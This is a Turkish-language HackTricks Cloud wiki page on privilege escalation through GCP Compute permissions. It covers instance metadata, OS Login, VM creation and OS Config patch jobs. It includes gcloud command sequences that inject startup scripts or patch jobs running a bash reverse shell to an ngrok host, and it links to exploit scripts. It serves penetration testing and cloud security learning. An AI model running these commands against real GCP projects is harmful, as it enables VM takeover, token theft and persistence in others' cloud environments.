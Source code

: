# GCP - Compute Privesc

{% hint style="success" %}
AWS Hacking öğrenin ve pratik yapın:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP Hacking öğrenin ve pratik yapın: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)** bizi takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## Compute

GCP'deki Compute ve VPC (ağ) hakkında daha fazla bilgi için kontrol edin:

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
Önemli: Metadata'sını değiştirmeyi gerektiren tüm ayrıcalık yükseltme saldırılarını gerçekleştirmek için (yeni kullanıcılar ve SSH anahtarları eklemek gibi) **örneğin bağlı SA üzerinde `actAs` izinlerinizin olması GEREKİR**, SA zaten bağlı olsa bile!
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

Bu izinle **bir örneğin** **metadata** bilgilerini **değiştirebilir** ve **bir kullanıcının yetkilendirilmiş anahtarlarını** **değiştirebilir** veya **sudo** izinlerine sahip **yeni bir kullanıcı oluşturabilirsiniz**. Bu nedenle, herhangi bir VM örneğine SSH ile bağlanabilir ve örneğin çalıştığı GCP Hizmet Hesabını çalabilirsiniz.\
Sınırlamalar:

* GCP Hizmet Hesaplarının VM örneklerinde varsayılan olarak **çok sınırlı bir kapsamı** olduğunu unutmayın.
* Giriş yapmak için **SSH** sunucusuyla **iletişim kurabilmeniz** gerekecek.

Bu izni nasıl istismar edeceğiniz hakkında daha fazla bilgi için kontrol edin:

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

Bu saldırıyı yeni bir başlangıç betiği ekleyerek ve örneği yeniden başlatarak da gerçekleştirebilirsiniz:
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

Bu izin, **önceki iznin sağladığı aynı ayrıcalıkları** belirli bir örnek üzerinde verir, tüm proje yerine. **Önceki bölümdeki aynı istismarlar ve sınırlamalar geçerlidir**.

### `compute.instances.setIamPolicy`

Bu tür bir izin, **önceki izinlerle kendinize bir rol vermenizi** ve bunları kötüye kullanarak ayrıcalıkları artırmanızı sağlar.

### **`compute.instances.osLogin`**

Eğer **OSLogin örnekte etkinse**, bu izinle sadece **`gcloud compute ssh [INSTANCE]`** komutunu çalıştırarak örneğe bağlanabilirsiniz. Örnekte **root ayrıcalıklarınız olmayacak**.

{% hint style="success" %}
Bu izinle VM örneği içinde başarılı bir şekilde giriş yapmak için, VM'ye bağlı SA üzerinde `iam.serviceAccounts.actAs` iznine sahip olmanız gerekir.
{% endhint %}

### **`compute.instances.osAdminLogin`**

Eğer **OSLogin örnekte etkinse**, bu izinle sadece **`gcloud compute ssh [INSTANCE]`** komutunu çalıştırarak örneğe bağlanabilirsiniz. Örnekte **root ayrıcalıklarınız olacak**.

{% hint style="success" %}
Bu izinle VM örneği içinde başarılı bir şekilde giriş yapmak için, VM'ye bağlı SA üzerinde `iam.serviceAccounts.actAs` iznine sahip olmanız gerekir.
{% endhint %}

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

Atanmış bir Hizmet Hesabı ile **bir sanal makine oluşturmak ve token'ı çalmak** mümkündür, böylece ayrıcalıkları artırmak için meta verilere erişebilirsiniz.

Bu yöntem için istismar betiği [burada](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py) bulunabilir.

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

Eğer **`osconfig.patchDeployments.create`** veya **`osconfig.patchJobs.exec`** izinleriniz varsa, bir [**yamanın işi veya dağıtımı**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching) oluşturabilirsiniz. Bu, ortamda yanlamasına hareket etmenizi ve bir projedeki tüm hesaplama örneklerinde kod yürütme elde etmenizi sağlar.

Şu anda, örneğe bağlı SA üzerinde **`actAs` iznine** ihtiyacınız olmadığını unutmayın.

Bunu manuel olarak istismar etmek istiyorsanız, ya bir [**yamanın işi**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch_job.json) **ya da** [**dağıtım**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch_deployment.json)** oluşturmanız gerekecek.**\
Bir yamanın işi için çalıştırın:

{% code overflow="wrap" %}
```python
cat > /tmp/patch-job.sh <<EOF
#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18442 0>&1
EOF

gsutil cp /tmp/patch-job.sh gs://readable-bucket-by-sa-in-instance/patch-job.sh

# Get the generation number
gsutil ls -a gs://readable-bucket-by-sa-in-instance

gcloud --project=$PROJECT_ID compute os-config patch-jobs execute \
--instance-filter-names=zones/us-central1-a/instances/<instance-name> \
--pre-patch-linux-executable=gs://readable-bucket-by-sa-in-instance/patch-job.sh#<generation-number> \
--reboot-config=never \
--display-name="Managed Security Update" \
--duration=300s
```
{% endcode %}

Bir yamanın dağıtımını yapmak için:
```bash
gcloud compute os-config patch-deployments create <name> ...
```
The tool [patchy](https://github.com/rek7/patchy) bu yanlış yapılandırmayı istismar etmek için geçmişte kullanılabilirdi (ama şimdi çalışmıyor).

**Bir saldırgan bunu kalıcılık için de kötüye kullanabilir.**

### `compute.machineImages.setIamPolicy`

**Kendinize ek izinler verin** compute Image için.

### `compute.snapshots.setIamPolicy`

**Kendinize ek izinler verin** bir disk anlık görüntüsü için.

### `compute.disks.setIamPolicy`

**Kendinize ek izinler verin** bir disk için.

### Erişim Kapsamlarını Aşma

Bu bağlantıyı takip ederek bazı [**erişim kapsamlarını aşma fikirleri**](../) bulabilirsiniz.

### GCP Compute örneğinde Yerel Yetki Yükseltme

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## Referanslar

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
AWS Hacking öğrenin ve pratik yapın:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP Hacking öğrenin ve pratik yapın: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
